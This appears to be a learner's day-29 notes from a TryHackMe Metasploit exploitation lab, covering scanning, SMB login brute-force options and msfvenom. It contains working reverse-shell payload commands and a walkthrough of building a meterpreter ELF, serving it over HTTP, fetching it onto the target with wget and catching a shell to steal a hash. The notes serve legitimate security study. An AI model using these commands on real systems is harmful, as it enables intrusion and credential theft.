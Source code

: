 ## Day 29
### [**Streak**](https://tryhackme.com/Tushig3531/streak)
---
**Room Completed**
[**Metasploit: Exploitation**](https://tryhackme.com/room/metasploitexploitation)
---
### Port scanning
- **Concurrency** — Number of targets scanned simultaneously.  
- **Ports** — Port range to be scanned. Nmap scans the 1,000 most common ports by default; Metasploit can scan ports 1–10,000.  
- **Threads** — Number of threads used at once. More threads usually result in faster scans.

You can run Nmap scans directly from `msfconsole`.

---

### UDP service identification
The `scanner/discovery/udp_sweep` module can quickly identify services running over UDP (User Datagram Protocol).

---

### SMB scans
Useful modules for enterprise networks include `smb_enumshares` and `smb_version`.

Example module options output (auxiliary/scanner/smb/smb_login):
```nginx
msf6 auxiliary(scanner/smb/smb_login) > options
```
```nginx
Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting    Required  Description
   ----               ---------------    --------  -----------
   ABORT_ON_LOCKOUT   false              yes       Abort the run when an accoun
                                                   t lockout is detected
   ANONYMOUS_LOGIN    false              yes       Attempt to login with a blan
                                                   k username and password
   BLANK_PASSWORDS    false              no        Try blank passwords for all
                                                   users
   BRUTEFORCE_SPEED   5                  yes       How fast to bruteforce, from
                                                    0 to 5
   CreateSession      false              no        Create a new session for eve
                                                   ry successful login
   DB_ALL_CREDS       false              no        Try each user/password coupl
                                                   e stored in the current data
                                                   base
   DB_ALL_PASS        false              no        Add all passwords in the cur
                                                   rent database to the list
   DB_ALL_USERS       false              no        Add all users in the current
                                                    database to the list
   DB_SKIP_EXISTING   none               no        Skip existing credentials st
                                                   ored in the current database
                                                    (Accepted: none, user, user
                                                   &realm)
   DETECT_ANY_AUTH    false              no        Enable detection of systems
                                                   accepting any authentication
   DETECT_ANY_DOMAIN  false              no        Detect if domain is required
                                                    for the specified user
   PASS_FILE          /root/Desktop/pas  no        File containing passwords, o
                      s.txt                        ne per line
   PRESERVE_DOMAINS   true               no        Respect a username that cont
                                                   ains a domain name.
   Proxies                               no        A proxy chain of format type
                                                   :host:port[,type:host:port][
                                                   ...]
   RECORD_GUEST       false              no        Record guest-privileged rand
                                                   om logins to the database
   RHOSTS             10.201.22.16       yes       The target host(s), see http
                                                   s://docs.metasploit.com/docs
                                                   /using-metasploit/basics/usi
                                                   ng-metasploit.html
   RPORT              445                yes       The SMB service port (TCP)
   SMBDomain          .                  no        The Windows domain to use fo
                                                   r authentication
   SMBPass                               no        The password for the specifi
                                                   ed username
   SMBUser            penny              no        The username to authenticate
                                                    as
   STOP_ON_SUCCESS    false              yes       Stop guessing when a credent
                                                   ial works for a host
   THREADS            1                  yes       The number of concurrent thr
                                                   eads (max one per host)
   USERPASS_FILE                         no        File containing users and pa
                                                   sswords separated by space,
                                                   one pair per line
   USER_AS_PASS       false              no        Try the username as the pass
                                                   word for all users
   USER_FILE                             no        File containing usernames, o
                                                   ne per line
   VERBOSE            true               yes       Whether to print output for
                                                   all attempts


View the full module info with the info, or info -d command.
```
Use `info` or `info -d` for full module details.
---

### Common services and what to look for
- **HTTP** — Web apps that may have vulnerabilities like SQL injection or Remote Code Execution (RCE).  
- **FTP** — May allow anonymous login and expose interesting files.  
- **SMB** — Can be vulnerable to exploits (e.g., MS17-010) or misconfigurations.  
- **SSH** — Might have weak or default credentials.  
- **RDP** — Could allow desktop access if credentials are weak or an RDP vulnerability exists.

“Low-hanging fruit” refers to easily identifiable and exploitable vulnerabilities that can let an attacker gain initial access or escalate privileges quickly.

---

### Metasploit workflow notes
- Use the `info` command on any module to learn how to use it.  
- `show payloads` lists payloads compatible with a selected module.

**MSFvenom vs MSFconsole**
- **msfvenom** is a payload generation/encoding tool.  
- **msfconsole** is the interactive command-line interface for the Metasploit Framework.

`msfvenom` can create payloads in many formats. Example supported output formats include:
Executable formats:
asp, aspx, aspx-exe, axis2, dll, elf, exe, exe-service, hta-psh, jar, jsp, macho, msi, psh, python-reflection, vba, vbs, war, ...

Transform formats:
base32, base64, bash, c, csharp, go, hex, java, js_be, masm, perl, powershell, py, raw, rb, rust, sh, vbscript, zig, ...


Based on the taget system' configuration (operatin system, install webserver, installed interpreted, etc.), msfvenom can be used to create payloads in almost all formats.

Once we have the shell.elf file on our target machine, use the chmod+x shell.elf command to accord executable permissions. Once done, we can run this file by typing ./shell.elf on the target machine command line

```text
Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe

PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php

ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp

Python
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

**Basically, when venom creates payload file and once it enters the computer system, it gives the that specific access to the host**

I was given an IP address and needed to retrieve a user hash via Metasploit. My workflow was:
- fist I logged in to the user account
- then I created on my main machine
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.201.10.134 LPORT=4444 -f elf > rev.elf
```
- Then I made the code executable
```bash
chmod 777 rev.elf
```
- Then I hosted through python
```python
python3 -m http.server 9000
```
- Then I downloaded that file on my target machine using
```bash
wget http://10.201.10.134:9000/rev.elf
```
- On the target machine, I made the code executable
```bash
chmod 777 rev.elf
```
- Then I opened new terminal and created handler on msfconsole
- Then I set the LHOST and LPORT of the rev.elf
- After that I run the code on the target machine
- Eventually, I got into the system, and found the hash through meterpreter
